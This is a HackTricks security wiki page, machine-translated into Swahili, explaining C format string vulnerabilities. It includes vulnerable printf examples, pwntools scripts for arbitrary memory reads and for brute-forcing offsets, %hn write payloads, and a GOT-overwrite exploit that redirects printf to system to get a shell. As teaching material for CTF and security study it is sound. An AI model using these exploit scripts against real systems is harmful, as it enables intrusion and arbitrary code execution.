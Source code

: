 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## Basic Information

Katika C **`printf`** ni kazi inayoweza kutumika **kuchapisha** maandiko fulani. **Parameta ya kwanza** ambayo kazi hii inatarajia ni **maandishi halisi yenye fomati**. **Parameta zinazofuata** zinazotarajiwa ni **thamani** za **kuchukua nafasi** ya **fomati** kutoka kwa maandiko halisi.

Kazi nyingine zenye udhaifu ni **`sprintf()`** na **`fprintf()`**.

Udhaifu huu unatokea wakati **maandishi ya mshambuliaji yanapotumika kama hoja ya kwanza** kwa kazi hii. Mshambuliaji ataweza kuunda **ingizo maalum linalotumia** uwezo wa **printf format** kusoma na **kuandika data yoyote katika anwani yoyote (inasomeka/inaandikwa)**. Kwa njia hii, kuwa na uwezo wa **kutekeleza msimbo wowote**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Mifano:**

* Mfano unaoweza kuathiriwa:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Matumizi ya Kawaida:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Na Hoja za Kutokuwepo:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf inayoweza kutumika:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Kupata Viashiria**

Muundo **`%<n>$x`**, ambapo `n` ni nambari, unaruhusu kuonyesha kwa printf kuchagua parameter ya n (kutoka kwenye stack). Hivyo ikiwa unataka kusoma parameter ya 4 kutoka kwenye stack ukitumia printf unaweza kufanya:
```c
printf("%x %x %x %x")
```
na unaweza kusoma kutoka kwa param ya kwanza hadi ya nne.

Au unaweza kufanya:
```c
printf("%4$x")
```
na kusoma moja kwa moja ya nne.

Kumbuka kwamba mshambuliaji anadhibiti `printf` **parameta, ambayo kimsingi inamaanisha kwamba** ingizo lake litakuwa kwenye stack wakati `printf` inaitwa, ambayo inamaanisha kwamba anaweza kuandika anwani maalum za kumbukumbu kwenye stack.

{% hint style="danger" %}
Mshambuliaji anayekontrol ingizo hili, ataweza **kuongeza anwani yoyote kwenye stack na kufanya `printf` iwasiliane nazo**. Katika sehemu inayofuata itafafanuliwa jinsi ya kutumia tabia hii.
{% endhint %}

## **Kusoma Bila Mpangilio**

Inawezekana kutumia formatter **`%n$s`** kufanya **`printf`** ipate **anwani** iliyoko katika **n nafasi**, ikifuatia na **kuichapisha kana kwamba ni string** (chapisha hadi 0x00 ipatikane). Hivyo ikiwa anwani ya msingi ya binary ni **`0x8048000`**, na tunajua kwamba ingizo la mtumiaji linaanza katika nafasi ya 4 kwenye stack, inawezekana kuchapisha mwanzo wa binary kwa:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Kumbuka kwamba huwezi kuweka anwani 0x8048000 mwanzoni mwa ingizo kwa sababu mfuatano utawekwa katika 0x00 mwishoni mwa anwani hiyo.
{% endhint %}

### Pata offset

Ili kupata offset kwa ingizo lako unaweza kutuma bytes 4 au 8 (`0x41414141`) ikifuatiwa na **`%1$x`** na **kuongeza** thamani hadi upate `A's`.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Jinsi inavyofaa

Kusoma kwa bahati kunaweza kuwa na manufaa kwa:

* **Kutoa** **binary** kutoka kwenye kumbukumbu
* **Kufikia sehemu maalum za kumbukumbu ambapo** **info** nyeti inahifadhiwa (kama vile canaries, funguo za usimbaji au nywila za kawaida kama katika hii [**CTF challenge**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Kuandika kwa Bahati**

Formatter **`%<num>$n`** **inaandika** **idadi ya bytes zilizandikwa** katika **anwani iliyoonyeshwa** katika param ya \<num> kwenye stack. Ikiwa mshambuliaji anaweza kuandika herufi nyingi kadri atakavyo kwa printf, atakuwa na uwezo wa kufanya **`%<num>$n`** kuandika nambari isiyo na mipaka katika anwani isiyo na mipaka.

Kwa bahati, kuandika nambari 9999, si lazima kuongeza 9999 "A"s kwenye ingizo, ili kufanya hivyo inawezekana kutumia formatter **`%.<num-write>%<num>$n`** kuandika nambari **`<num-write>`** katika **anwani inayotolewa na nafasi ya `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Hata hivyo, kumbuka kwamba kawaida ili kuandika anwani kama `0x08049724` (ambayo ni nambari KUBWA kuandika mara moja), **inatumika `$hn`** badala ya `$n`. Hii inaruhusu **kuandika tu Bytes 2**. Kwa hivyo operesheni hii inafanywa mara mbili, moja kwa ajili ya Bytes 2 za juu za anwani na nyingine kwa ajili ya zile za chini.

Kwa hivyo, udhaifu huu unaruhusu **kuandika chochote katika anwani yoyote (kuandika bila mpangilio).**

Katika mfano huu, lengo litakuwa **kufuta** **anwani** ya **kazi** katika jedwali la **GOT** ambalo litaitwa baadaye. Ingawa hii inaweza kutumia mbinu nyingine za kuandika bila mpangilio ili kutekeleza:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Tutakuwa **tukifuta** **kazi** ambayo **inapokea** **hoja** zake kutoka kwa **mtumiaji** na **kuielekeza** kwa **kazi ya `system`**.\
Kama ilivyotajwa, kuandika anwani, kawaida hatua 2 zinahitajika: Unaanza **kuandika Bytes 2** za anwani na kisha zile nyingine 2. Ili kufanya hivyo **`$hn`** inatumika.

* **HOB** inaitwa kwa Bytes 2 za juu za anwani
* **LOB** inaitwa kwa Bytes 2 za chini za anwani

Kisha, kwa sababu ya jinsi format string inavyofanya kazi unahitaji **kuandika kwanza ndogo** ya \[HOB, LOB] na kisha nyingine.

Ikiwa HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Ikiwa HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Template

Unaweza kupata **templat** ya kuandaa exploit kwa aina hii ya udhaifu katika:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Au mfano huu wa msingi kutoka [**hapa**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

Inawezekana kutumia vitendo vya kuandika vya udhaifu wa format string ili **kuandika katika anwani za stack** na kutumia udhaifu wa aina ya **buffer overflow**.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt_strings/pico18_echo/index.html)
* 32 bit, no relro, no canary, nx, no pie, matumizi ya msingi ya format strings kuvuja bendera kutoka kwenye stack (hakuna haja ya kubadilisha mtiririko wa utekelezaji)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
* 32 bit, relro, no canary, nx, no pie, format string kuandika anwani `fflush` na kazi ya ushindi (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt_strings/tw16_greeting/index.html)
* 32 bit, relro, no canary, nx, no pie, format string kuandika anwani ndani ya main katika `.fini_array` (ili mtiririko urudi nyuma mara moja zaidi) na kuandika anwani kwa `system` katika meza ya GOT ikielekeza kwa `strlen`. Wakati mtiririko unaporudi kwenye main, `strlen` inatekelezwa kwa pembejeo ya mtumiaji na ikielekeza kwa `system`, itatekeleza amri zilizopitishwa.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ikiwa unavutiwa na **kazi ya hacking** na kuhack yasiyoweza kuhackika - **tunatafuta wafanyakazi!** (_kuandika na kuzungumza kwa ufasaha kwa Kipolandi kunahitajika_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

Support HackTricks

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki hila za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.
{% endhint %}

